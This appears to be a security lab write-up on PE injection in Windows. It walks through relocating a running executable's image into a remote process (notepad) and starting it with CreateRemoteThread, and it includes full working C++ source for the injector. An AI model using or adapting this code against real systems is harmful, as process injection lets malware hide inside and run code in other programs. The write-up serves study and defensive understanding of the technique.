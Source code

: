 ```yaml
---
description: Code Injection
---
```


# PE Injection: Executing PEs inside Remote Processes

This is a quick lab of a simplified way of injecting an entire portable executabe \(PE\) into another running process. Note that in order to inject more complex PEs, additional DLLs in the target process may need to be loaded and Import Address Table fixed and for this, refer to my other lab [Reflective DLL Injection](reflective-dll-injection.md#resolving-import-address-table).

## Overview

In this lab, I wrote a simple C++ executable that consists of two functions:

* `main` - this is the function that is responsible for injection of the PE image of the running process into a remote/target process
* `InjectionEntryPoint` - this is the function that will get executed by the target process \(notepad in my case\) once it gets injected. 
  * This function will pop a `MessageBox` with a name of the module the code is currently running from. If injection is successful, it should spit out a path of notepad.exe.

High level process of the technique as used in this lab:

1. Parse the currently running image's PE headers and get its `sizeOfImage`
2. Allocate a block of memory \(size of PE image retrieved in step 1\) in the currently running process. Let's call it `localImage`
3. Copy the image of the current process into the newly allocated local memory
4. Allocate new memory block \(size of PE image retrieved in step 1\) in a remote process - the target process we want to inject the currently running PE into. Let's call it `targetImage`
5. Calculate delta between memory addresses `localImage` and `targetImage`
6. Patch the PE you're injecting or, in other words, relocate it/rebase it to `targetImage`. For more information about image relocations, see my other lab [T1093: Process Hollowing and Portable Executable Relocations](process-hollowing-and-pe-image-relocations.md)
7. Write the patched PE into `targetImage` memory location
8. Create remote thread and point it to `InjectionEntryPoint` function inside the PE

## Walkthrough

Getting `sizeOfImage` of the current process \(local process\) that will be injecting itself into a target process and allocating a new memory block in the local process:

![](../../.gitbook/assets/image%20%2885%29.png)

In my case, the new memory block got allocated at address `0x000001813acc0000`. Let's copy the current process's image in there:

![](../../.gitbook/assets/image%20%28164%29.png)

Let's allocate a new block of memory in the target process. In my case it got allocated at `0x000001bfc0c20000`:

![](../../.gitbook/assets/image%20%28128%29.png)

Calculate the delta between 0x000001bfc0c20000 and 0x000001813acc0000 and apply image base relocations. Once that's done, we can move over our rebased PE from 0x000001813acc0000 to 0x000001bfc0c20000 in the remote process using `WriteProcessMemory`. Below shows that our imaged has now been moved to the remote process:

![](../../.gitbook/assets/image%20%2857%29.png)

Finally, we can create a remote thread and point it to the `InjectionEntryPoint` function inside the remote process:

```cpp
CreateRemoteThread(targetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)((DWORD_PTR)InjectionEntryPoint + deltaImageBase), NULL, 0, NULL);
```

![New thread getting created inside notepad.exe](../../.gitbook/assets/newthread.gif)

## Demo

Below shows how we've injected the PE into the notepad \(PID 11068\) and executed its function `InjectionEntryPoint` which printed out the name of a module the code was running from, proving that the PE injection was succesful:

![](../../.gitbook/assets/pe-injection.gif)

## Code

```cpp
#include "pch.h"
#include <stdio.h>
#include <Windows.h>

typedef struct BASE_RELOCATION_ENTRY {
	USHORT Offset : 12;
	USHORT Type : 4;
} BASE_RELOCATION_ENTRY, *PBASE_RELOCATION_ENTRY;

DWORD InjectionEntryPoint()
{
	CHAR moduleName[128] = "";
	GetModuleFileNameA(NULL, moduleName, sizeof(moduleName));
	MessageBoxA(NULL, moduleName, "Obligatory PE Injection", NULL);
	return 0;
}

int main()
{
	PVOID imageBase = GetModuleHandle(NULL);
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)imageBase;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)imageBase + dosHeader->e_lfanew);
	
	PVOID localImage = VirtualAlloc(NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_READWRITE);
	memcpy(localImage, imageBase, ntHeader->OptionalHeader.SizeOfImage);
	
	HANDLE targetProcess = OpenProcess(MAXIMUM_ALLOWED, FALSE, 11068);
	PVOID targetImage = VirtualAllocEx(targetProcess, NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

	DWORD_PTR deltaImageBase = (DWORD_PTR)targetImage - (DWORD_PTR)imageBase;

	PIMAGE_BASE_RELOCATION relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)localImage + ntHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].VirtualAddress);
	DWORD relocationEntriesCount = 0;
	PDWORD_PTR patchedAddress;
	PBASE_RELOCATION_ENTRY relocationRVA = NULL;
	
	while (relocationTable->SizeOfBlock > 0)
	{
		relocationEntriesCount = (relocationTable->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(USHORT);
		relocationRVA = (PBASE_RELOCATION_ENTRY)(relocationTable + 1);

		for (short i = 0; i < relocationEntriesCount; i++)
		{
			if (relocationRVA[i].Offset)
			{
				patchedAddress = (PDWORD_PTR)((DWORD_PTR)localImage + relocationTable->VirtualAddress + relocationRVA[i].Offset);
				*patchedAddress += deltaImageBase;
			}
		}
		relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)relocationTable + relocationTable->SizeOfBlock);
	}

	WriteProcessMemory(targetProcess, targetImage, localImage, ntHeader->OptionalHeader.SizeOfImage, NULL);
	CreateRemoteThread(targetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)((DWORD_PTR)InjectionEntryPoint + deltaImageBase), NULL, 0, NULL);

	return 0;
}
```

## References

{% embed url="https://www.andreafortuna.org/2018/09/24/some-thoughts-about-pe-injection/" %}

{% embed url="https://blog.sevagas.com/PE-injection-explained" %}

{% embed url="https://www.malwaretech.com/2013/11/portable-executable-injection-for.html" %}

